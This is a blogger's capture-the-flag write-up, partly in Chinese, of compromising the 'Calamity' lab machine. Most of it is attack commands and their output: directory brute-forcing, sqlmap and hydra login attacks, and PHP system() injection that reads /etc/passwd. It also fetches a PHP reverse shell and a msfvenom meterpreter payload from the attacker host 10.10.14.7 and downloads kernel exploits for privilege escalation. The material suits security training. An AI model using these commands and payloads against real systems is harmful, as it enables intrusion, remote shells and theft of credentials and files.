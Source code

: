 ```yaml
---
title: Calamity（web rce）
categories:
- training
tags:
- training
---
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
1.

```
gobuster -u http://10.10.10.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/uploads (Status: 301)
```
2.

```
curl -X OPTIONS http://10.10.10.27 -I
HTTP/1.1 200 OK
Date: Wed, 20 Mar 2019 02:36:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Allow: OPTIONS,GET,HEAD,POST
Content-Length: 0
Content-Type: text/html
```
```
curl -X PUT http://10.10.10.27/uploads/1.html -d "<?php system($_GET['cmd']) ?>" <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>405 Method Not Allowed</title>
</head><body>
<h1>Method Not Allowed</h1>
<p>The requested method PUT is not allowed for the URL /uploads/1.html.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.27 Port 80</address>
</body></html>
```

3. 

nikto -h 10.10.10.27 

```
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-29786: /admin.php?en_log_id=0&action=config: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-29786: /admin.php?en_log_id=0&action=users: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-3092: /admin.php: This might be interesting...
```

4. 

searchsploit EasyNews

http://10.10.10.27/admin.php

5. 

burp + sqlmap

```
POST /admin.php HTTP/1.1

Host: 10.10.10.27

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Referer: http://10.10.10.27/admin.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 15

Connection: close

Upgrade-Insecure-Requests: 1

user=00&pass=00
```

sqlmap -r 1.req

sqlmap -r 1.req --risk 3 --level 5

6. 

hydra

```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -P /usr/share/wordlists/500-worst-passwords.txt -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```

7. 

wapiti -u http://10.10.10.27/admin.php

not found any vul

8. 

curl -X POST http://10.10.10.27/admin.php -d "<?php system($_GET['cmd']) ?>" 

```
<html><body>

<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
										<!-- password is:skoupidotenekes-->
</form> 
</body></html>
```

准备尝试post能否上传一句话，然后意外发现，源代码中藏着密码。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/3.PNG)
发现图片中用户名和密码颠倒了，burp抓包...em，应该是开发错误。

9. 

```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"

hydra -L cirt-default-usernames.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/4.PNG)

10. http://10.10.10.27/admin.php?html=

```
html=<?php system(ls) ?> admin.php bg.png index.html leet.png uploads 
html=<?php system(whoami) ?>   www-data 
html=<?php system("cat /etc/passwd") ?>
html=<?php system("cat /home/xalvas/user.txt") ?>

/bin/nc /bin/nc.openbsd     nc不支持-e，于是上传php shell。
ls -al /tmp          tmp目录可写不可读
d-wx-wx-wx  10 root root  4096 Mar 19 23:39 tmp

pwd /var/www/html

/usr/bin/wget http://10.10.14.7/php-reverse-shell.php -P /tmp

html=<?php system("ls -al /tmp/shell.php") ?>
chmod a+x /tmp/php-reverse-shell.php
html=<?php system("php /tmp/php-reverse-shell.php") ?>
获得一个shell
```

11. info

Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 i686 i686 GNU/Linux

whereis gcc

gcc: /usr/bin/gcc /usr/lib/gcc /usr/share/man/man1/gcc.1.gz

准备上传msf类型exp。

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=6678 -f elf -o payload.elf

本地执行：
handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp
python -m SimpleHTTPServer

远程shell执行：
wget http://10.10.14.7:8000/payload.elf -P /tmp
chmod a+x /tmp/payload.elf
./tmp/payload.elf

[*] Meterpreter session 5 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 12:11:48 +0800

成功连接，但是一旦连接就会断开
```

12. searchsploit linux 4.4.0

```
wget http://10.10.14.7:8000/43418.c -P /tmp
chmod a+x /tmp/43418.c
gcc 43418.c -o pwn
编译失败

wget http://10.10.14.7:8000/pwn -P /tmp
chmod a+x /tmp/pwn
./pwn
二进制格式失败，kali本地编译运行为64位。

wget http://10.10.14.7:8000/44298.c -P /tmp
gcc 44298.c -o pwn
44298.c
编译失败
```

13. ps -ef | grep root

```
root      1049     1  0 Mar17 ?        00:00:01 /usr/bin/lxcfs /var/lib/lxcfs/
搜索lxcfs，判断主机可能是一个容器。
```

14. cat /home/xalvas/dontforget.txt

```
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```

15. 找到一个可写目录/var/tmp，将LinEnum.sh上传到目标机

```
wget http://10.10.14.7:8000/LinEnum.sh
wget http://10.10.14.7:8000/linux-exploit-suggester.sh
chmod a+x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

wget http://10.10.14.7:8000/40839
gcc -pthread 40839 -o dirty -lcrypt
/usr/bin/ld:40839: file format not recognized; treating as linker script
/usr/bin/ld:40839:2: syntax error
collect2: error: ld returned 1 exit status
```

16. 

```
nc -lnvp 7788 < recov.wav
Listening on [0.0.0.0] (family 0, port 7788)
Killed

python -m SimpleHTTPServer
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Killed
```

提权需要绕过进程保护，绕过许多内存保护机制，利用二进制文件。手写exp。

看了wp也看不懂，溜了溜了。


